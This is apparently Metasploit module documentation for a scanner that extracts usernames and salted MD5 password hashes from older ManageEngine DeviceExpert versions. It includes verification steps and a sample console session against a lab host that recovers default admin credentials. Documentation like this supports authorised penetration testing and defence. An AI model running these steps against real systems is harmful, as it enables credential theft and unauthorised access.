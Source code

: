 ## Description

  This module extracts usernames and salted MD5 password hashes
  from ManageEngine DeviceExpert version 5.9 build 5980 and prior.


## Vulnerable Software

  [DeviceExpert](http://www.manageengine.com/products/device-expert) is a
  web–based, multi-vendor network configuration and change management (NCCM)
  solution for switches, routers, firewalls and other network devices.

  This module has been tested successfully on DeviceExpert
  version 5.9.7 build 5970 on Windows XP SP3.

  Software download:

  * [5.8 build 5850](http://web.archive.org/web/20130123070454/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5900](http://web.archive.org/web/20130304043822/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5950](http://web.archive.org/web/20131029082827/http://www.manageengine.com/products/device-expert/download.html)


## Verification Steps

  1. Do: ```use auxiliary/scanner/http/manageengine_deviceexpert_user_creds```
  2. Do: ```set RHOSTS [IP]```
  3. Do: ```run```
  4. You should receive usernames and associated password hashes + salts


## Scenarios

  ```
  msf > use auxiliary/scanner/http/manageengine_deviceexpert_user_creds 
  msf auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > set rhosts 172.16.158.131
  rhosts => 172.16.158.131
  msf auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > check
  [+] 172.16.158.131:6060 - The target is vulnerable.
  [*] Checked 1 of 1 hosts (100% complete)
  msf auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > run

  [*] 172.16.158.131:6060 - Found weak credentials (admin:admin)

  ManageEngine DeviceExpert User Credentials
  ==========================================

   Username  Password  Password Hash                     Role           E-mail                Password Salt
   --------  --------  -------------                     ----           ------                -------------
   admin     admin     3a4ebf16a4795ad258e5408bae7be341  Administrator  noreply@zohocorp.com  12345678

  [*] Credentials saved in: /Users/jvazquez/.msf4/loot/20140926165907_default_172.16.158.131_manageengine.dev_118155.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > creds 172.16.158.131
  Credentials
  ===========

  host            service           public  private  realm  private_type
  ----            -------           ------  -------  -----  ------------
  172.16.158.131  6060/tcp (https)  admin   admin           Password
  ```

